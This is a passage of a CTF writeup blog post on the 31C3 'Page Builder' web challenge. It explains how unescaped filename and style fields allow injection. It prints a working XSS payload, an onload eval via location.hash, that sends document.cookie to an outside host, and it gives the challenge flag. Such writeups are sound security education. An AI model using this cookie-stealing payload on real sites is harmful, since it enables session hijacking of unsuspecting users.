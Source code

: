 ```yaml
---
title: 31C3 CTF – Page Builder writeup
author: tyage
type: post
date: 2015-01-02T00:32:50+00:00
url: /?p=829
categories:
  - CTF

---
```

<p>This challenge needs only XSS but it is interesting to me 🙂</p>
<blockquote><p>
These guys have ripped off our designs and using them in their web pages builder! We’d Haxx them, don’t worry we’ll give you decent points for it. http://188.40.18.76/
</p></blockquote>
<p><a href="https://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda.png"><img data-attachment-id="831" data-permalink="https://blog.tyage.net/?attachment_id=831" data-orig-file="https://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda.png" data-orig-size="742,388" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;0&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;&quot;,&quot;caption&quot;:&quot;&quot;,&quot;created_timestamp&quot;:&quot;0&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;0&quot;,&quot;iso&quot;:&quot;0&quot;,&quot;shutter_speed&quot;:&quot;0&quot;,&quot;title&quot;:&quot;&quot;,&quot;orientation&quot;:&quot;0&quot;}" data-image-title="スクリーンショット 2015-01-02 8.40.09" data-image-description="" data-medium-file="https://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda.png" data-large-file="https://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda.png" src="http://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda-300x157.png" alt="スクリーンショット 2015-01-02 8.40.09" width="300" height="157" class="alignnone size-medium wp-image-831" /></a></p>
<p>By using the form, we could generate a page.(such as http://188.40.18.76/output/19c94d778563b117e18e3442e887989aea14277d/filename)</p>
<p>It htmlspecialchars the &#8220;title&#8221; and &#8220;file content&#8221; but not &#8220;style&#8221; or &#8220;filename&#8221;.</p>
<p>The maximum size of &#8220;style&#8221; is 8bytes and that of &#8220;filename&#8221; is 65bytes.</p>
<p>Then, &#8220;filename&#8221; can be <code>foo.php</code> and &#8220;style&#8221; can be <code>&lt;?php a</code> so that it shows PHP error.</p>
<p>(<a href="http://188.40.18.76/output/19c94d778563b117e18e3442e887989aea14277d/foo.php">http://188.40.18.76/output/19c94d778563b117e18e3442e887989aea14277d/foo.php</a>)</p>
<blockquote><p>
Parse error: syntax error, unexpected &#8216;&#8221; rel=&#8221;&#8216; (T_CONSTANT_ENCAPSED_STRING) in /var/www/html/output/19c94d778563b117e18e3442e887989aea14277d/foo.php on line 10
</p></blockquote>
<p>hmm&#8230; PHP code exeution looks difficult because maximum size of &#8220;style&#8221; is 8bytes and short_open_tag is offed. (and <code>*</code> is removed from &#8220;title&#8221; and &#8220;file content&#8221;)</p>
<p>So let&#8217;s search another vulnerability.</p>
<p>We can XSS with &#8220;filename&#8221;, because the error page above prints &#8220;filename&#8221; that is not escaped!</p>
<blockquote><p>
http://188.40.18.76/output/19c94d778563b117e18e3442e887989aea14277d/%3Cbody onload=%22eval%28location.hash.slice%281%29%29%22.php#<br />
location.href=%27http://tyage.net/%27+document.cookie
</p></blockquote>
<p>(Notice: we put the code in <code>location.hash</code> to fit in the maximum length of &#8220;filename&#8221;)</p>
<p>Now, just submit a link above in the contact form and we capture the flag!</p>
<p><code>31c3_Y0u_H4v3_F0und_My_W34k_Err0R_P01n7</code></p>
